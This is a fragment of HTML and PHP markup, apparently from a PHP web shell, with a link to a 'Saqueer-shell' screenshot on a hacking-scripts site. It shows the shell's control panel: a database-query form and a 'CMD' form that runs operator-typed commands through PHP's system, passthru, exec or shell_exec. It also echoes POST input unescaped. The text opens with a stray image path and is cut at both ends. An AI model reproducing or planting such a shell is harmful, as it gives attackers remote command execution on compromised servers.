     	&lt;/tr&gt;
&lt;input name="db" value="MySQL" type="hidden"&gt;
&lt;input name="db_server" type="hidden" value="localhost"&gt;
&lt;input name="db_port" type="hidden" value="3306"&gt;
&lt;input name="cccc" type="hidden" value="db_query"&gt;
    	
&lt;/form&gt;    	
		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="6"&gt;&nbsp;&lt;/td&gt;


		&lt;/tr&gt;
		
&lt;form method="POST" target="_blank"&gt;
		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" class="style1" colspan="6"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;CMD 
	system - passthru - exec - shell_exec&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    				&lt;/tr&gt;
		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;cmd :&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;
					&lt;select name="att" dir="rtl"  size="1"&gt;
&lt;?php
if($_POST['att']==null)
{
echo '						&lt;option value="system" selected=""&gt;system&lt;/option&gt;';
}else{
echo "						&lt;option value='$_POST[att]' selected=''&gt;$_POST[att]&lt;/option&gt;
						&lt;option value=system&gt;system&lt;/option&gt;
";

						
}
?&gt;

						&lt;option value="passthru"&gt;passthru&lt;/option&gt;
						&lt;option value="exec"&gt;exec&lt;/option&gt;
						&lt;option value="shell_exec"&gt;shell_exec&lt;/option&gt;
					&lt;/select&gt;    
    &lt;strong&gt;
&lt;input name="page" type="hidden" value="ccmmdd"&gt;    
	&lt;input name="ccmmdd2" type="text" style="width: 284px" value="ls -la"&gt;&lt;/strong&gt;&lt;/td&gt;
    	&lt;/tr&gt;
		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&nbsp;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;&lt;strong&gt;&lt;input type="submit" value="go"&gt;&lt;/strong&gt;&lt;/td&gt;
    	&lt;/tr&gt;
&lt;/form&gt;    	    	

&lt;form method="POST" target="_blank"&gt;


 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png
